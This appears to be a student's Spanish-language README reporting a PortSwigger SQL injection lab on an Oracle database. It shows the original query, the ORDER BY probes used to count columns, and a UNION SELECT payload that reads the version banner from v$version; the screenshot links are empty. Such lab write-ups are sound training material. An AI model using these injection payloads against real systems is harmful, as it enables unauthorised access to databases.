 # Reto-Christian_Sangucho
Reto_Laboratio_SQLi

# README_CHRISTIAN_SANGUCHO_DIAZ
# INFORME LABORATORIO https://portswigger.net/

## Laboratorio:
Ataque de inyección SQL, consultando el tipo y la versión de la base de datos en Oracle

## Objetivo:
Conseguir la versión de Oracle

##Consulta Original: 
SELECT * FROM articles WHERE category = ‘Gifts’


## Consulta Manipulada:
Se busca el número de columnas con las siguientes instrucciones
‘ ORDER BY 1
‘ ORDER BY 2
‘ ORDER BY 3


! [Imagen búsqueda de número de columnas con error]()
! [Imagen búsqueda de número de columnas]()

## Consulta para obtener la versión de Oracle
=Gifts' UNION SELECT banner, 'NULL' FROM v$version--

! [Imagen de la Version Oracle]()
